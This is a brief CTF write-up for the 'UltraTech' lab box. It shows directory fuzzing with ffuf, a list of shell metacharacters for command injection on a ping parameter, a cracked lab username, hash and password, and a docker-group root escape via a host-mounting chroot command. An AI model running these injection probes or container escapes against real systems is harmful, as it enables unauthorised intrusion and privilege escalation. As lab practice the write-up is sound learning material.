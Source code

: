# UltraTech

We got a couple of opens ports. 
We got something on port `8081`<br>
![utech:8081](./imgs/8081.png)<br>

![authping](./imgs/authping.png)<br>
![auth](./imgs/auth.png)<br>
![ping](./imgs/ping.png)<br>

We got another port open which is `Apache:31331`<br>
![apache](./imgs/31331.png)
<hr>

`ffuf -w /usr/share/wordlists/dirb/big.txt -u http://utech.thm:31331/FUZZ -c -t 200`<br>
![fuff apache](./imgs/fuff_apache.png)

So what I am taking out of this is that when I see possible command injection I need to try all the symbols:<br>
* '
* "
* \`
* ;
* |

I had to do command injection on http://utech.thm/ping?ip=localhost but I forgot to try \`\`. <br>

![databse](./imgs/database.png)<br>
![hash](./imgs/hash.png)<br>

```
user: r00t
hash: f357a0c52799563c7c7b76c1e7543a32
password: n100906
```

And I used it to ssh.<br>
<hr>

Then, I found that I was in `docker` group, so I did:<br>
```
docker images
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```